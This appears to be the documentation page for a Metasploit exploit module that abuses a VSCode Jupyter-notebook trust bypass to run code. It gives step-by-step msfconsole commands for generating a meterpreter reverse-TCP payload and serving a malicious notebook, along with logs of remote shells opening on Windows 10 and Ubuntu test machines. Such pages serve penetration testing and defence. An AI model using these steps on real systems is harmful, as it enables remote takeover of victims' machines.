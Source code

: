 ## Vulnerable Application

VSCode when opening an Jupyter notebook (.ipynb) file bypasses the trust model.
On versions v1.4.0 - v1.71.1, its possible for the Jupyter notebook to embed
HTML and javascript, which can then open new terminal windows within VSCode.
Each of these new windows can then execute arbitrary code at startup.

During testing, the first open of the Jupyter notebook resulted in pop-ups
displaying errors of unable to find the payload exe file. The second attempt
at opening the Jupyter notebook would result in successful execution.

Successfully tested against VSCode 1.70.2 on Windows 10 and Ubuntu 22.04.

### Install

From https://code.visualstudio.com/updates/v1_70

https://update.code.visualstudio.com/1.70.2/win32-x64-user/stable

https://update.code.visualstudio.com/1.70.2/linux-deb-x64/stable


## Verification Steps

### Windows
1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set lhost [ip]`
1. Do: `run`
1. In VSCode, open the URL (File -> Open -> Paste/type the URL)
1. After the pop-up errors, open the file again.
1. You should get a shell.

### Linux
1. Install the application
1. Start msfconsole
1. Do: `use linux/x64/meterpreter/reverse_tcp`
1. Do: `set lhost [ip]` and `set lport [port]`
1. Do: `generate -o shell.sh -f elf`
1. Copy the payload `shell.sh` to `/tmp/` on the target and run `chmod +x /tmp/shell.sh`
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set target 1 `
1. Do: `set lhost [ip]` and `set lport [port]` - be sure to set these to the same values as in the previous step
1. Do: `set FETCH_WRITABLE_DIR /tmp/`
1. Do: `set PAYLOAD_FILENAME shell.sh`
1. Do: `run`
1. Copy the ipynb, and payload file to the target machine.
1. In VSCode, open the file (File -> Open -> project.ipynb)
1. After the pop-up errors, open the file again.
1. You should get a shell.

## Options

## Scenarios

### VSCode 1.70.2 on Windows 10

```
resource (ipynb)> use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (ipynb)> set fetch_srvport 9090
fetch_srvport => 9090
resource (ipynb)> rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.10.147:4444 
[*] Starting up web service...
[*] Using URL: http://192.168.10.147:8080/project.ipynb
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100


[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Meterpreter session 1 opened (192.168.10.147:4444 -> 192.168.10.100:56964) at 2024-03-21 12:38:13 +0000
[*] Meterpreter session 2 opened (192.168.10.147:4444 -> 192.168.10.100:56967) at 2024-03-21 12:38:14 +0000
^C[-] Exploit failed [user-interrupt]: Interrupt 
[*] Server stopped.
[-] rexploit: Interrupted
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > shell
Process 9632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4170]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h00die>code --version
code --version
1.70.2
e4503b30fc78200f846c62cf8091b76ff5547662
x64

C:\Users\h00die>
```

### VSCode 1.70.2 on Linux

```
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Starting up web service...
[*] Using URL: http://172.16.199.1:8090/project.ipynb
[*] Sent project.ipynb to 172.16.199.131
[*] Sending stage (3045380 bytes) to 172.16.199.131
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.131:60298) at 2024-05-13 09:56:36 -0700

^C[-] Exploit failed [user-interrupt]: Interrupt
[*] Server stopped.
[-] run: Interrupted
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         meterpreter x64/linux  msfuser @ 172.16.199.131  172.16.199.1:4444 -> 172.16.199.131:60298 (172.16.199

msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer     : 172.16.199.131
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
